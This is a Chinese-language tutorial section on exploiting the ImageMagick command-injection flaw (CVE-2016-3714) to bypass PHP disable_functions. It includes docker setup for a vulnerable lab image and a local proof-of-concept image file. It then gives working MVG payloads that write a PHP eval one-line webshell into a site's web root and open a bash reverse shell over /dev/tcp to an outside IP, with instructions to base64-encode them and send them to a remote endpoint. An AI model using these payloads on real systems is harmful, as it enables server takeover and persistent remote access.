 
### 利用 ImageMagick 命令执行漏洞 bypass disable_functions

利用 [ImageMagick 命令执行漏洞（CVE-2016–3714）](https://github.com/Medicean/VulApps/tree/master/i/imagemagick/1)

> ImageMagick是一款开源图片处理库，支持 PHP、Ruby、NodeJS 和 Python 等多种语言，使用非常广泛。包括 PHP imagick、Ruby rmagick 和 paperclip 以及 NodeJS imagemagick 等多个图片处理插件都依赖它运行。

**获取环境**

拉取镜像到本地

`$ docker pull medicean/vulapps:i_imagemagick_1`

启动环境

`$ docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1`

 > -p 8000:80 前面的 8000 代表物理机的端口，可随意指定。

- 使用与利用
- 本地测试

在容器中 `/poc.png` 文件内容如下：
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://evalbug.com/"|ls -la")'
pop graphic-context
```

在物理机上直接执行下面命令验证漏洞：

`$ docker exec i_imagemagick_1 convert /poc.png 1.png`

或进入 docker容器 shell 中执行：

`$ convert /poc.png 1.png`

如果看到 `ls -al 命令成功执行`，则存在漏洞。

**远程命令执行测试和使用POC**

远程命令执行无回显，可通过写文件或者`反弹 shell` 来验证漏洞存在。

- 写一句话到网站根目录下：
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://xxxxx.com/1.jpg"|echo \'<?php eval($_POST[\'ant\']);?>\' > shell.php")'
    pop graphic-context
    ```

- 反弹 shell:
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.101/2333 0>&1")'
    pop graphic-context
    ```
将上述两个 `Exp` 经过 `base64 编码`后发送到远程 poc.php，querystring 的 key 为 img。
